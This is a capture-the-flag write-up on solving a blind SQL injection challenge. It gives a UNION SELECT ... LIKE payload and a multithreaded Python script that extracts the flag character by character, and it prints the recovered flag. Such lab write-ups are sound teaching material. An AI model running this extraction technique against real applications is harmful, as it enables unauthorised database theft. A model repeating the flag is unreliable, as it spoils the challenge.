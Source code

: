 # Why lie: Blind SQL injection (500 points)

![Alt text](_images/image.png)

Given the script shows that it will output only Good guess! and Nope if our sql statement query fetches any data or not. So we can use blind sql injection to get the flag by boolean based.

![Alt text](_images/image-1.png)

Using cyberfox with hackbar extension we can easily make a payload. The payload above was showed as an example from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md). 

Blind SQL injection process:
- Find the number of columns
- Find the table name
- Find the column name
- Analyze what we can do next

As we have already found the number of columns and the table name is `secret`.

![Alt text](_images/image-2.png)

Finding the column name needs a bit of guessing. I tried `message` but shows error so I tried `flag` and it worked.

![Alt text](_images/image-3.png)

Now we can use the column name to get the flag by bruteforcing it with output based "Good guess!" and "Nope".

The payload: `guess=1 UNION SELECT 1 FROM secret where flag like "UDCTF{\%";`

```python
import requests
import concurrent.futures

url = "https://bluehens-blindsql.chals.io/index.php?guess=1 UNION SELECT 1 FROM secret where flag like '" 

charset = "abcdefghijklmnopqrstuvwxyz0123456789_!@#$%^&*()-=+{}[]|;:'\",.<>?/`~"

flag = "UDCTF{"

def check_character(char):
    payload = f"{url}{flag}{char}%'"
    response = requests.get(payload)
    return "Good guess!" in response.text

with concurrent.futures.ThreadPoolExecutor() as executor:
    while True:
        futures = [executor.submit(check_character, char) for char in charset]
        concurrent.futures.wait(futures)
        
        found = False
        for char, future in zip(charset, futures):
            if future.result():
                flag += char
                found = True
                print(flag)
                break
        
        if not found or flag[-1] == "}":
            break

print("Flag:", flag)
```

**FLAG:** UDCTF{l1k3_a_b4t}